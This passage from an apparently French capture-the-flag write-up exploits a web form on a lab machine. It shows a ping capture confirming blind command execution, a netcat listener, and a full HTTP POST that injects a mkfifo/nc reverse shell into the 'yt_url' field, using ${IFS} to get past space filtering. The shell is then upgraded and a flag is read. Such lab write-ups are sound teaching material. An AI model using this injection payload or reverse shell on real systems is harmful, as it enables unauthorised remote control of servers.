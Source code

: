 Et sur notre machine on reçoit bien le ping !

```bash
23:54:23.425989 IP dmv.home > krowz.home: ICMP echo request, id 1938, seq 2, length 64
23:54:23.426021 IP krowz.home > dmv.home: ICMP echo reply, id 1938, seq 2, length 64
23:54:24.449820 IP dmv.home > krowz.home: ICMP echo request, id 1938, seq 3, length 64
23:54:24.449919 IP krowz.home > dmv.home: ICMP echo reply, id 1938, seq 3, length 64
```

Il ne nous reste plus qu'à y mettre notre reverse shell. 

* * *

## Shell basique

Pour ce faire j'ai utilisé **nc**.

Il faut bien évidemment lancer le listener sur notre machine attaquante 
```bash
nc -lnvp 4444
```

```bash
POST / HTTP/1.1
Host: 192.168.1.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://192.168.1.47
Connection: close
Referer: http://192.168.1.47/

yt_url=;`rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|/bin/sh${IFS}-i|nc${IFS}192.168.1.16${IFS}4444${IFS}>/tmp/f`
```

Et nous voilà avec un shell sur la machine. Comme d'habitude, on sera plus à l'aise avec un shell propre :

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

On ne va pas aller trop loin et rechercher dans le dossier **admin** si on trouve quelque chose d'important.                                                                                     
Et effectivement nous sommes servis !

```bash
cd admin 
cat flag.txt

flag{0d8486a0c0c42503bb60ac77f4046ed7}
```
